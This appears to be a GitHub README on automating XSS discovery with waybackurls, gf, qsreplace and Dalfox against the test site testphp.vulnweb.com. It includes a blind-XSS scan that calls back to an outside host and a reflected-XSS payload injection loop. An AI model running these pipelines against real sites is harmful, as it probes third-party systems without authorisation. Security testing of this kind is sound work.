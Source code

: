 # Automate XSS using Dalfox, WaybackURL, GF Patterns.

<b> Make sure you have Go installed on your Machine </b> 

### To Install Go on your Machine:

```
  1) sudo apt install -y golang
  2) export GOROOT=/usr/lib/go
  3) export GOPATH=$HOME/go
  4) export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
  5) source .bashrc
```

## How to Hunt Blind XSS using Dalfox? 

- Use Waybackurls by Tomnomnom to Fetch URLS for Specific Target.
- Use GF patterns to find Possible XSS Vulnerable Parameters.
- Use Dalfox to find XSS.

* Steps :
```bash
waybackurls testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b blindxss.xss.ht pipe > output.txt
```
## How to Hunt Reflected XSS?

- Use Waybackurls by Tomnomnom to Fetch URLS for Specific Target.
- Use qsreplace for Accept URLs on stdin, replace all query string values with a user-supplied value, only output each combination of query string parameters once per host and path.

* Steps :
```bash
waybackurls testphp.vulnweb.com| grep '=' | qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```

## Tools Download Links:- 

* 1:- [Dalfox](https://github.com/hahwul/dalfox)
* 2:- [Waybackurls](https://github.com/tomnomnom/waybackurls)
* 3:- [GF](https://github.com/tomnomnom/gf)
* 4:- [GF Patterns](https://github.com/1ndianl33t/Gf-Patterns)
* 5:- [qsreplace](https://github.com/tomnomnom/qsreplace)

Find Script here : [QuickXSS](https://github.com/theinfosecguy/QuickXSS)


If you have any Questions, Reach out to me via [Twitter](https://twitter.com/g0t_rOoT_)
## Twitter : [Fani Malik](https://twitter.com/fanimalikhack)
## Twitter : [Faizee Asad](https://twitter.com/faizee_asad)
